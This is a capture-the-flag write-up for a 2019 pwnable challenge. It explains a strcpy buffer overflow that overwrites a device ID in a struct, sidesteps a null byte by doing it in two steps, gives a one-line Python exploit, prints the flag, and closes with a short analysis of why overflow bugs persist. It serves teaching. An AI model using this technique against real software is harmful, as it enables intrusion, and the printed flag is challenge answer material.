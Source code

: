 ## Device Control Pwnel - part 2

**Categories:** 2019, pwnable
**Points:** 150
**Description:**

>  The Device Control Pwnel challenge
>  contains another flag; this is the place to turn it into points.
>  


## Write-up

This is the second part of the buffer overflow challenge using the same C source code. The idea is similar, 256 bytes of inputs are allowed while the description field in the struct is of size 128 bytes. The array is copied using the unsecure funtion `strcpy` which allows us to write over the field `id` of the device struct. The goal is to write the device master ID `0x8100ca33c1ab7daf` to a device to get the flag. The only problem is that the number contains a null byte `\x00` which is the character that will cause `strcpy` to stop copying. Therefore, we need to first create a new device with the first part of the ID `81` and after edit the same device to add the rest of the ID `00ca33c1ab7daf`.

```python
python -c 'print("2\n" + "name\n" + "A"*128+"1234567\x81\n" + "3\n1\n" + "name\n" + "A"*128+"\xaf\x7d\xab\xc1\x33\xca\x00\n" + "1\n4")' | ./devices
```

```
NIXU{h0w_t0_d3al_w1th_null_byt3s\x00}
```

### Analysis

Bugs related to buffer, stack and integer overflows remain common to this day. They occur both in small scale software like the one used in these challenges and in products developed by software giants like Google [@arstechnica_overflow]. Overflows have been known since at least 1972 [@ande72], are among the most well known bugs and are often the first ones new programmers learn about. Overflows are often, as reflected in the challenge, simple in nature but can have devastating consequences. That overflow bugs and exploits are still common despite all this highlights the need for security oriented programmers (all programmers should be) to be knowledgeable about overflows.

